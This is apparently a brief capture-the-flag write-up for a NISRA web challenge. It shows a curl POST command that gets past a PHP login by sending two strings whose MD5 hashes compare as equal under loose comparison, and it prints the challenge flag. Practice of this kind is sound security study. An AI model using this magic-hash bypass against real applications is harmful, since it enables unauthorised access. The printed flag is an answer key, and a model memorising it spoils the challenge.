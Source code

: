 ```yaml
---
title: NISRA - MD5_2
tags: [NISRA, CTF, Web]

category: "Security/Practice/NISRA/Web"
---
```


# NISRA - MD5_2

## Exploit
Payload: `curl http://chall2.nisra.net:41023/ -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "user=240610708&password=QNKCDZO"`
Flag: `NISRA{S3CuR17y_1ssuEs_Of_pHP_@ND_Md5}`

## Reference
[md5('240610708') == md5('QNKCDZO')](https://news.ycombinator.com/item?id=9484757)